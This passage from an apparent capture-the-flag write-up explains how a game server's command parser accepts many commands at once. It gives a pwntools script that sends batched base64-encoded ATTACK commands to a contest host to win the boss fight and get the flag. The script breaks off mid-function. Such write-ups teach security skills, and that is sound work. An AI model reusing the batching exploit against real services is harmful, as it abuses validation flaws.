But if we take a look at `log_commands_from_str`, it becomes apparent that the server could receive more than one command at a time.

```python
def log_commands_from_str(self, commands_str: str):
    self.log_commands(
        [Command(command_str) for command_str in commands_str.split()]
    )
```

We could therefore send any number of commands before a final `VALIDATE` command, and all the commands will be processed without allowing the boss to attack.

The actual attack is simple - just base64-encode an `ATTACK ATTACK ATTACK ... ATTACK VALIDATE` string and send it to the server.

```python
from pwn import *
import base64
import json

conn = remote('chal00bq3ouweqtzva9xcobep6spl5m75fucey.ctf.sg', 18261)


def send(data):
    conn.send(base64.b64encode(data.encode()) + b'#')


def recv():
    return base64.b64decode(conn.recvuntil(b'#')).decode()


def view_stats():

    send('VIEW_STATS')
    jsonData = json.loads(recv())
    return jsonData


def battle(ourAttack, ourHp):

    send('BATTLE')
    bossData = json.loads(recv())
    print(bossData)

    bossAttack = bossData['attack']
    bossHP = bossData['hp']

    toSend = ''

    while True:

        toSend += 'ATTACK '
        bossHP -= ourAttack

        if bossHP <= 0:
            break

    send(toSend + 'VALIDATE')

    recved = recv()
    if recved == 'VALIDATED_OK':
        return False
    elif recved == 'OBTAINED_FLAG':
        return recv()
    else:
```
